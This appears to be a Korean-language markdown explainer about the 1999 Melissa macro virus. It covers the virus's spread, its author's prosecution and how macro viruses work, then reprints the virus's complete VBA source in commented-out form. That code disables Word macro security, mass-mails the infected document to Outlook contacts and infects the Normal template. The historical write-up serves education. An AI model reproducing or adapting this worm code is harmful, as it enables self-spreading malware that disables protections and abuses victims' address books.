

# Melissa Virus

**1999년 3월 26일** 이메일 클라이언트 Outlook 97, 98로 부터 대량의 메일이 전송되었다.
메일의 형식은 다음과 같다
```
보낸이: <감염 자료를 보낸사람의 이름>
제목: Important message from
받는이 <50개의 메일을 받는 사람>
첨부파일: LIST.DOC
본문: Here is that document you asked for ... don't show anyone else ;-)TCizzle
```


이러한 형식으로 보내진 메일은 사용자가 메일을 열어 **LIST.DOC** 파일을 실행시키면 DOC파일에 들어있는 악성코드가 자동으로 해당 유저의 주소록을 뒤져 50통의 악성코드 멜리사가 들어있는 메일을 전송한다.

1999년 3월 26일 처음 발견된 **멜리사 바이러스**(Melissa Virus)는 단 45분 만에 직원수가 500명이 되는 기업에서 쌓이는 메일을 감당하지 못하고 오버플로우를 일으켜 메일을 차단하게 만들었으며 1주일만에 최소 300개의 기관, 컴퓨터 10만대를 감염시켰다.

멜리사 바이러스의 개발자는 당시 31세의 프로그래머로 **데이비드 스미스**(David L. Smith)라는 뉴저지 카운티에 AT&T의 협력업체에서 일하는 평범한 사람이었다.

멜리사는 처음부터 컴퓨터를 망가뜨리기 위한 목적으로 만든것이 아닌 순전히 심심풀이로 만든것으로 알려져 있다. 하지만 E-mail을 통해 순식간에 확산된 멜리사는 수 많은 컴퓨터를 감염시켰으며 결국 FBI가 나서 체포를 하게 되었다.

이는 **바이러스 개발혐의로** 기소된 **최초의 인물**이었다. 데이비드는 이 사건으로 징역 40년과 48만 달러의 벌금을 물기로 되어 있어으나 FBI 수사에 협조한다는 조건으로 징역 20개월과 벌금5000달러라는 최종 판결이 내려졌다.

멜리사 바이러스(Melissa Virus) 혹은 사이버 패스트(Cyber Fast) 라고도 불리는 바이러스는 **매크로 바이러스**(Macro Virus)에 일종으로 MS 워드 , 엑셀과 같이 매크로 언어를 지원하는 문서파일에 기생하는 바이러스이다. 매크로 바이러스는 문서가 닫히거나 열릴때 자동적으로 실행되며 일반적으로 문서의 일반 매크로를 바이러스로 바꾸어 감염시키는 방법이다.

매크로 바이러스는 **운영체제**(OS)에 관계없이 동작하는 응용프로그램 내부에서 동작하는 것이 가능한 바이러스이다. 때문에 Window, Mac과 같은 운영체제와 관계없이 Ms 워드와 같이 매크로 언어를 지원하는 응용프로그램만 있다면 감염이 가능하다.

---

## Melissa Virus Source Code
```VB
'Private Sub Document_Open()
'On Error Resume Next
'IF System.PrivateProfileString("",
'"HKEY_CURRENT_USER\Software\Microsoft\Office\9.0\Word\Security", '"Level") <> ""
'Then
'CommandBars("Macro").Controls("Security...").Enabled = False
'System.PrivateProfileString("",
'"HKEY_CURRENT_USER\Software\Microsoft\Office\9.0\Word\Security", '"Level") = 1&
'Else
'CommandBars("Tools").Controls("Macro").Enabled = False
'Options.ConfirmConversions = (1 - 1): Options.VirusProtection = '(1 - 1):
'Options.SaveNormalPrompt = (1 - 1)
'End If
'Dim UngaDasOutlook, DasMapiName, BreakUmOffASlice
'Set UngaDasOutlook = CreateObject("Outlook.Application")
'Set DasMapiName = UngaDasOutlook.GetNameSpace("MAPI")
'If System.PrivateProfileString("",
'"HKEY_CURRENT_USER\Software\Microsoft\Office\", "Melissa?") <> "... by Kwyjibo"
'Then
'If UngaDasOutlook = "Outlook" Then
'DasMapiName.Logon "profile", "password"
'   For y = 1 To DasMapiName.AddressLists.Count
'       Set AddyBook = DasMapiName.AddressLists(y)
'       x = 1
'       Set BreakUmOffASlice = UngaDasOutlook.CreateItem(0)
'       For oo = 1 To AddyBook.AddressEntries.Count
'           Peep = AddyBook.AddressEntries(x)
'           BreakUmOffASlice.Recipients.Add Peep
'           x = x + 1
'           If x > 50 Then oo = AddyBook.AddressEntries.Count
'        Next oo
'        BreakUmOffASlice.Subject = "Important Message From " &
'Application.UserName
'        BreakUmOffASlice.Body = "Here is that document you asked 'for ... don't
'show anyone else ;-)"
'        BreakUmOffASlice.Attachments.Add ActiveDocument.FullName
'        BreakUmOffASlice.Send
'        Peep = ""
'   Next y
'DasMapiName.Logoff
'End If
'System.PrivateProfileString("", '"HKEY_CURRENT_USER\Software\Microsoft\Office\",
'"Melissa?") = "... by Kwyjibo"
'End If
''Set ADI1 = ActiveDocument.VBProject.VBComponents.Item(1)
'Set NTI1 = NormalTemplate.VBProject.VBComponents.Item(1)
'NTCL = NTI1.CodeModule.CountOfLines
'ADCL = ADI1.CodeModule.CountOfLines
'BGN = 2
'If ADI1.Name <> "Melissa" Then
'If ADCL > 0 Then _
'ADI1.CodeModule.DeleteLines 1, ADCL
'Set ToInfect = ADI1
'ADI1.Name = "Melissa"
'DoAD = True
'End If
'If NTI1.Name <> "Melissa" Then
'If NTCL > 0 Then _
'NTI1.CodeModule.DeleteLines 1, NTCL
'Set ToInfect = NTI1
'NTI1.Name = "Melissa"
'DoNT = True
'End If
''If DoNT <> True And DoAD <> True Then GoTo CYA
'If DoNT = True Then
'Do While ADI1.CodeModule.Lines(1, 1) = ""
'ADI1.CodeModule.DeleteLines 1
'Loop
'ToInfect.CodeModule.AddFromString ("Private Sub Document_Close()'")
'Do While ADI1.CodeModule.Lines(BGN, 1) <> ""
'ToInfect.CodeModule.InsertLines BGN, ADI1.CodeModule.Lines(BGN, '1)
'BGN = BGN + 1
'Loop
'End If
'If DoAD = True Then
'Do While NTI1.CodeModule.Lines(1, 1) = ""
'NTI1.CodeModule.DeleteLines 1
'Loop
'ToInfect.CodeModule.AddFromString ("Private Sub Document_Open()")
'Do While NTI1.CodeModule.Lines(BGN, 1) <> ""
'ToInfect.CodeModule.InsertLines BGN, NTI1.CodeModule.Lines(BGN, '1)
'BGN = BGN + 1
'Loop
'End If
'CYA:
'If NTCL <> 0 And ADCL = 0 And (InStr(1, ActiveDocument.Name, "Document") =
'False) Then
'ActiveDocument.SaveAs FileName:=ActiveDocument.FullName
'ElseIf (InStr(1, ActiveDocument.Name, "Document") <> False) Then
'ActiveDocument.Saved = True: End If
'WORD/Melissa written by Kwyjibo
'Works in both Word 2000 and Word 97
'Worm? Macro Virus? Word 97 Virus? Word 2000 Virus? You Decide!
'Word -> Email | Word 97 <--> Word 2000 ... it's a new age!
'If Day(Now) = Minute(Now) Then Selection.TypeText " Twenty-two points, plus
'triple-word-score, plus fifty points for using all my letters.  'Game's over.
'I'm outta here."
'End Sub
```
### [Source Code](http://www.rohitab.com/discuss/topic/994-melissa-source-code/)
---
# 참조
https://ko.wikipedia.org/wiki/%EB%A9%80%EB%A6%AC%EC%82%AC_%EC%9B%9C

http://news.khan.co.kr/kh_news/khan_art_view.html?art_id=200903251757125

https://www.donga.com/news/Inter/article/all/19990826/7465085/1

http://news.grayhash.com/html/category/malware/f84e7557a7.html

http://www.rohitab.com/discuss/topic/994-melissa-source-code/

https://www.linux.co.kr/home/lecture/index.php?cateNo=7&secNo=492&theNo=&leccode=523

https://m.blog.naver.com/wnrjsxo/221721852010

https://photohistory.tistory.com/15791